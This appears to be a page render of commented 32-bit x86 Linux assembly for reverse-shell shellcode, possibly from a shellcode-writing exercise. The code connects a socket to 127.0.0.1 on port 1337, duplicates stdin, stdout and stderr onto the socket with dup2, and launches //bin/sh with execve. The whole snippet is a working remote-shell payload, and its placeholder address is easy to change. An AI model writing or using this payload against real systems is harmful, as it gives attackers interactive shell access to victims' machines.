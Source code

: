 ``` assembly
    xor eax, eax
    inc bl 
    inc bl                  ;call --> bind = 3

                            ;struct sockaddr_in {...}
    push 0x0100007F         ;
    push word 0x3905        ;push sin_port in network byte order --> 0x3905 (=1337) 
    push word 0x02          ;push sin_family --> 2 --> AF_INET
    mov ecx, esp            ;save pointer to struct sockaddr_in in ecx
    push 0x10               ;push addrlen 0x10 (=16) for connect function
    push ecx                ;push pointer to struct sockaddr_in for connect function
    push edi                ;push sockfd for connect function
    mov ecx, esp            ;save pointer to arguments in ecx
    
    mov al, 0x66
    int 0x80;


    ;DUP2 
    ;int dup2(int oldfd, int newfd);
    xor ecx, ecx 

    mov cl, 2               ;write 2 in ecx for newfd parameter of dup2 

dupLoop:
    mov ebx, edi            ;write old socket in ebx for oldfd parameter of dup2
    xor eax, eax            
    mov al, 0x3f            ;eax = 0x3f --> dup2
    int 0x80 

    dec cx                  ;decrease ecx by 1 --> newfd    
    jns dupLoop             ;loop until sign / negative flag(so 2,1,0)


    ;EXECVE
    ;int execve(const char *pathname, char *const argv[], char *const envp[]);
    xor eax, eax
    mov ecx, eax            ;arg = ecx = 0
    mov edx, eax            ;envp = edx = 0
    push eax
                            ;//bin/sh
                            ;2f 2f 62 69 - 6e 2f 73 68
    push 0x68732f6e         
    push 0x69622f2f
    mov ebx, esp            ;pathname = ebx --> pointer to the stack to //bin/sh
    mov al, 0xb             ;eax = 0xb --> execve
    int 0x80
```